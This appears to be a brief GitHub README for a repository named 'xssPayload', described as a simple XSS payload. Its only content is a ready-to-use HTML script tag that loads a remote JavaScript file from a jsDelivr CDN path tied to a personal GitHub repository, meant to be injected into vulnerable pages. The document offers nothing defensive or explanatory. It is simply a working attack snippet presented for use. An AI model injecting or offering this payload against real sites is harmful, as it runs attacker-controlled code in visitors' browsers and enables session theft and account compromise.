 # xssPayload

Simple XSS payload

## Calling from cdn.jsdelivr.net

````HTML
<script src="//cdn.jsdelivr.net/gh/hotplugin0x01/A@B/x.js"></script>
````
